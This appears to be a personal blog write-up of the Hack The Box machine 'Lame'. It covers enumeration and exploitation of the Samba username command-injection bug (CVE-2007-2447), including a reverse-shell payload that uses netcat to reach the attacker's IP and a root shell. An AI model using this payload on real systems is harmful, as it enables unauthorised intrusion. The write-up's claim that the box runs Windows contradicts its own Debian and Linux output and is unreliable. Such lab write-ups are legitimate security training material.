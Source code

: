 ```yaml
---
layout: post
title: "HTB - Lame"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```

I've just completed Lame from HTB! In my opinion, Lame is an easy box that provides a quick introduction to the Windows Operating System. Here is a quick writeup about how I solved this box. 

<!--more-->

## HTB - Lame
**Box** : Lame\
**IP Address** : 10.10.10.3\
**Operating System** : Windows

## Remarks

- While doing this box, I failed to realize that `Samba` has actually turned off SMBv1 support. Hence, I was met with a lot of connection errors when I attempted to pwn the box (And a lot of hair-tearing sessions!!)

## Enumeration
As with any other box, let's do a quick Nmap scan to identify the possible open ports. For this box, there is slight more open ports, 5 in fact - namely ports `21`, `22`, `139`, `445` and `3632`.

Port `21` belongs to an FTP server, port `22` belongs to an SSH server, port `3632` belongs to a distccd server while ports `139` and `445` belong to a netbios-ssn server. Both ports `139` and `445` uses Samba, but the main difference is the version of Samba used.

Firstly, we do a `searchsploit` for existing vulnerability to Port `21`, and we discovered that `vsftpd 2.3.4` running on Port `21` may be vulnearble to backdoor command execution. 

```
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remot | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote D | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote D | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service           | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution  | unix/remote/17491.rb
vsftpd 2.3.4 - Backdoor Command Execution  | unix/remote/49757.py
vsftpd 3.0.3 - Remote Denial of Service    | multiple/remote/49719.py
------------------------------------------- ---------------------------------

```

To verify this, we will scan for the vulnerability using Nmap. Sadly, this port doesn't seem to be vulnerable to such a backdoor exploitation.

## Exploitation

Noticing that Ports `139` and `445` uses Samba and also knowing that Samba is a SMB networking protocol. We will now try to connect to the SMB server using the SMBv1 protocol, reason being that SMBv1 has more vulnerabilities and attack vectors for us to try. One thing to note though is that Samba has actually turned off its SMBv1 support, so we would have to supply `client min protocol=NT1` argument for it to work. At the same time, we also realize that we could log in to the server anonymously. 

```
┌──(kali㉿kali)-[~]
└─$ smbclient -L 10.10.10.3 --option='client min protocol=NT1'
Enter WORKGROUP\kali's password: 
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        tmp             Disk      oh noes!
        opt             Disk      
        IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            LAME
```

Knowing that we can login to the Samba server without any credentials, we also found `CVE 2007-2447` exploit from `exploitdb` that allows the username parameter to be injected to run command in the SMB server. This could then be used to create a reverse shell to the attacker's machine. 

To do so, we will first have to create a listener on the attacker's machine
```
nc -nlvp 3000
```

Afterwards, all we have to do is to connect to the SMB client and send the metacharacters into the username with the reverse shell payload

```
┌──(kali㉿kali)-[~]
└─$ smbclient //10.10.10.3/tmp                                           1 ⚙
Enter WORKGROUP\kali's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.16.250 3000`"
Password: 
session setup failed: NT_STATUS_IO_TIMEOUT
smb: \>
```

### Obtaining the system flag

Afterwards a connection will be received on the attacker's machine. All we that is left to do is to stabilize the shell and obtain the system flag.

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 3000              
listening on [any] 3000 ...
connect to [10.10.16.250] from (UNKNOWN) [10.10.10.3] 49928
python -c 'import pty; pty.spawn("bash")'
root@lame:/# cd /root
cd /root
root@lame:/root# ls
ls
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt
cat root.txt
```